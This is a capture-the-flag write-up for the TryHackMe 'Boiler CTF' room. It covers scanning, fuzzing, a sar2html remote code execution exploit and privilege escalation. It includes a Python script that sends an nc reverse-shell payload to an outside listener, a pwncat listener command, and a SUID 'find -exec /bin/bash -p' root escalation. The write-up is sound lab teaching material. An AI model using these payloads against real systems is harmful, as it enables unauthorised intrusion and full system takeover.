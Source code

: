 ```yaml
---
title: "TryHackMe Writeup - Boiler CTF"

categories: [Tryhackme,Linux]

tags: [sar2html,find(privesc)]

image: https://tryhackme-images.s3.amazonaws.com/room-icons/4a800c6513239dbdfaf74ce869a88add.jpeg
---
```


THM - [https://tryhackme.com/room/boilerctf2](https://tryhackme.com/room/boilerctf2)

## RECONNISANCE

To begin perfomed port scan to check the open ports on the machine 

```bash
rustscan -a $ip --range 0-65535 -- -A -sCV -oA $ip 
```

```plaintext
PORT      STATE SERVICE REASON         VERSION
21/tcp    open  ftp     syn-ack ttl 63 vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.14.34.81
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
10000/tcp open  http    syn-ack ttl 63 MiniServ 1.930 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-favicon: Unknown favicon MD5: AE6C3C9D070C10C75816F620F3E98AED
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
55007/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:ab:e1:39:2d:95:eb:13:55:16:d6:ce:8d:f9:11:e5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC8bsvFyC4EXgZIlLR/7o9EHosUTTGJKIdjtMUyYrhUpJiEdUahT64rItJMCyO47iZTR5wkQx2H8HThHT6iQ5GlMzLGWFSTL1ttIulcg7uyXzWhJMiG/0W4HNIR44DlO8zBvysLRkBSCUEdD95kLABPKxIgCnYqfS3D73NJI6T2qWrbCTaIG5QAS5yAyPERXXz3ofHRRiCr3fYHpVopUbMTWZZDjR3DKv7IDsOCbMKSwmmgdfxDhFIBRtCkdiUdGJwP/g0uEUtHbSYsNZbc1s1a5EpaxvlESKPBainlPlRkqXdIiYuLvzsf2J0ajniPUkvJ2JbC8qm7AaDItepXLoDt
|   256 ae:de:f2:bb:b7:8a:00:70:20:74:56:76:25:c0:df:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLIDkrDNUoTTfKoucY3J3eXFICcitdce9/EOdMn8/7ZrUkM23RMsmFncOVJTkLOxOB+LwOEavTWG/pqxKLpk7oc=
|   256 25:25:83:f2:a7:75:8a:a0:46:b2:12:70:04:68:5c:cb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPsAMyp7Cf1qf50P6K9P2n30r4MVz09NnjX7LvcKgG2p
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.92%E=4%D=4/3%OT=21%CT=%CU=37124%PV=Y%DS=2%DC=T%G=N%TM=642AB865%P=x86_64-pc-linux-gnu)
SEQ(SP=104%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)
OPS(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11NW7%O6=M506ST11)
WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)
ECN(R=Y%DF=Y%T=40%W=6903%O=M506NNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)
```

## ENUMERATION

Performed Fuzzing on the port 80 . Found a endpoint `/joomla` .

```bash
gobuster dir -u http://$ip/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -x .html,.txt,.php
```

```bash
http://10.10.177.11/index.html           (Status: 200) [Size: 11321]
http://10.10.177.11/manual               (Status: 301) [Size: 313] [--> http://10.10.177.11/manual/]
http://10.10.177.11/robots.txt           (Status: 200) [Size: 257]
http://10.10.177.11/joomla               (Status: 301) [Size: 313] [--> http://10.10.177.11/joomla/]
```

&nbsp;

On further enumeration on the endpoint `/joomla` found a intresting directory called `/_test`

```bash
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://$ip/joomla/FUZZ -ic -v  -o fuz -of all
```

```bash
[Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 167ms]
| URL | http://10.10.67.130/joomla/_test
| --> | http://10.10.67.130/joomla/_test/
    * FUZZ: _test
```

## FOOTHOLD

At the endpoint point `/joomla/_test/`  there is service sar2html i s running .

The `sar2html` is vulnerable to Remote code execution.

![Untitled](/assets/img/boiler.png)

&nbsp;


Witten a  python script to automate the reverse shell part .

```python
import requests

payload={
'plot' : 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.34.81 445 >/tmp/f'
}

try:
    with requests.Session() as s:
        resp = s.get('http://10.10.67.130/joomla/_test/index.php',params=payload, allow_redirects=False)

finally:
    pass
```

&nbsp;

start a listener at the attacker end

```bash
pwncat-cs -lp 445
```

&nbsp;

Now the reverse_shell  script and we receive a reverse  connection as  `www-data` user 

![Untitled](/assets/img/boiler1.png)

## POST-EXPLOITATION

During the post exploitation under the directory `/var/www/html/joomla/_tests` there is file called `log.txt` which contains the user `basterd` password in the log 

![Untitled](/assets/img/boiler2.png)


&nbsp;

switch to the user to basterd and use the password obtained from logtxt

```bash
su basterd  # use the password obtained from logtxt
```

![Untitled](/assets/img/boiler3.png)


&nbsp;

there is file ``backup.sh` in the home directory of  basterd

![Untitled](/assets/img/boiler4.png)

&nbsp;

The file contains the password for the  user `stoner` inside the bash script .

![Untitled](/assets/img/boiler5.png)



## Privilege Escalation

While enumerating the suid bit binaries found that that , the `find` has suid bit is enabled 

```bash
find / -perm -u=s -type f 2>/dev/null
```

![Untitled](/assets/img/boiler6.png)

&nbsp;

To elevate the privileges to `root` user execute the below command :

```bash
/usr/bin/find . -exec /bin/bash -p \; -quit
```

![Untitled](/assets/img/boiler7.png)